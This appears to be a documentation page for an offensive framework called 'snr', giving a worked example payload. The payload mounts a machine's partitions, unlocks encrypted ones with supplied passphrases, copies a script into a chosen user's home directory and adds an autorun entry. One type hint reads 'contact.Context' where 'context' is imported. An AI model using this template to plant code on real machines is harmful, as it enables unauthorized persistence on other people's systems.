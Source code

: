 Working Example
===============

After knowing all you need to know, let's give you a working example. This example is a framework payload:

`my_payload/__init__.py`:

.. code-block:: python

    """
    Add a payload to a user's home directory
    """
    from snr.core.payload.payload import Context, Payload


    class MyPayload(Payload):
        AUTHORS = ("GlobularOne",)
        TARGET_OS_LIST = ("GNU/Linux",)
        INPUTS = (
            ("USERNAME", "", -1, "Username of the user to add the payload to their home directory"),
            Payload.supports_encrypted_access()
        )

        def generate(self, ctx: Context) -> int:
            variables = self.get_self_variables()
            self.format_payload_and_write(ctx, variables)
            self.add_autorun(ctx)
            return 0

    payload = MyPayload()

`my_payload/payload.py`:

.. code-block:: python

    """
    My_payload Payload
    """
    #!/usr/bin/python3
    from snr.core.payload import entry_point, storage, context

    USERNAME = "@USERNAME@"
    PASSPHRASES = "@PASSPHRASES@"

    @entry_point.entry_point
    def main(block_info: list[storage.BlockInfo], root_ctx: contact.Context, our_device: str) -> None:
        for part in storage.query_all_partitions(block_info):
            with storage.mount_partition(part, PASSPHRASES) as mounted_part:
                if mounted_part.is_linux():
                    mounted_part.copy("/root/payload.py", f"/home/{USERNAME}/payload.py")

.. seealso::

    :doc:`partition_types`
        Read about how the partition type detection works and how you can use it.
